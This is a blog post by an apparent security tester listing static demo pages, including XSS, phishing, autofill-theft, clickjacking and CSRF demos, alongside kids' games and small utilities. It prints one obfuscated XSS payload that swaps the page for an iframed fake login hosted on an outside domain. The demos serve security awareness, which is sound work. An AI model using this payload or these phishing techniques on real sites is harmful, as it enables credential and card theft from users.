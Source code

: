 ```yaml
---
title: "Useful static apps! (Updated)"
date: 2020-04-21T20:15:45+10:00
draft: false
---
```


Sometimes i make static pages for single purpose and they can be quite useful so i will just leave them here

### For security

Here  is a simple page to show case some useful Content Security Policy (CSP) tricks for protecting apps from XSS [https://cspdemo.surge.sh/](https://cspdemo.surge.sh/). I find sharing this page and some explanation get buy in from developers a lot quicker.

Here is my example to show why it is a good idea to host user's provided content, especially ones where user has full control over, SSRF/proxied-pages in a completely separated domain. Google is no exception: [http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com](http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com). This way cross origin policy will protect your web app from being attacked with XSS style attack.

Here is a fun XSS trick i had... This is useful when you notice your variable being injected/server-side render straight into an inline script code block [https://htmlweird.surge.sh/](https://htmlweird.surge.sh/). This trick mess with how browser first parse HTML document to figure out different HTML tags and not having any context about Javascript.

A fun fake login page: [https://cornmbank.com/fakelogin.html](https://cornmbank.com/fakelogin.html) you can either iframe it 
This is example to rewrite the html body and change it to our fakelogin page:
```
<img src=x onerror=eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9IjxpZnJhbWUgc3JjPVwiaHR0cHM6Ly9lYmZlLnB3L3NoYXJlZC9mYWtlbG9naW4uaHRtbFwiIHN0eWxlPVwid2lkdGg6MTAwJTsgaGVpZ2h0OjEwMHZoXCIgLz4i'))>
```

QRCode generator using js library https://ebfe.pw/shared/qr.html

My phishing page to show case IDN homograph attack: [https://cornmbank.com/](https://cornmbank.com/), it used to get internal ip ranges using webrtc but that seems to be broken nowand it uses a nice trick at the bottom to determine what social network you are logging into.

Open blank-Changing parent tab <-- does what it says:
[https://ebfe.pw/shared/changeparent.html](https://ebfe.pw/shared/changeparent.html)

```
<a href="https://ebfe.pw/shared/changeparent.html" target="_blank">https://ebfe.pw/shared/changeparent.html</a>
```

CSRF test page generates a csrf form submit page base off your "copy as curl command" from burp. Although under engagementtool you do have a generate cfrf PoC page anyway. :p Oh well, whateva [https://ebfe.pw/shared/csrfpage.html](https://ebfe.pw/shared/csrfpage.html)


Pikachu is a static page that would try to steal your autofill info. put ?debug=true at the end of the url to see how it work or ?cc=true and see if it can steal creditcard autofil stuffs
[http://ebfe.pw/shared/pikachu.html](http://ebfe.pw/shared/pikachu.html). Unfortunately chrome has made it more obvious by showing the drop down selection for autofill values.

This page used to clickjack your browser and make your facebook like a page about picklecat :)
[http://www.cornmbank.com/picklecat.html](http://www.cornmbank.com/picklecat.html). Unfortunately my picklecat page was removed and with the Chrome fix for SameSite, this may not be a problem sooner or later. That said, you could potentially modify the source to make an useful demo.


### Games for kids and adults =))

A cardgenerator app i made to create printable A4 pages of card game for security training (for the best experience, use cardstock paper): [https://cardgenerator.surge.sh/](https://cardgenerator.surge.sh/)

Same concept as above, i made a flashcard generator for my wife to use to teach childcare kids: [http://new-motion.surge.sh/](http://new-motion.surge.sh/)


StarRealm deck building game simple point counter [https://ebfe.pw/shared/star.html](https://ebfe.pw/shared/star.html)


Arm wrestling bible (Made after I lost at arm wrestling to a much bigger dude) [https://ebfe.pw/shared/wrestling.html](https://ebfe.pw/shared/wrestling.html)

A hangman game for kindies kid... with image hint after 6 wrong pick [https://wordplay.surge.sh](https://wordplay.surge.sh) - Although perhaps it is not suitable for children since it is..."hang man" ...

A text-to-speech scenario game for kids: [https://tinyadventure.surge.sh](https://tinyadventure.surge.sh). The idea is to act it out and follow the narative for each scenario.

### Randoms


Code Highlight using JS that you can use to copy to word document: [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)

QRCode generator using js library [https://ebfe.pw/shared/qr.html](https://ebfe.pw/shared/qr.html)

A cidr calculator page that include calculation for terraform cidrsubnet() function. [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)
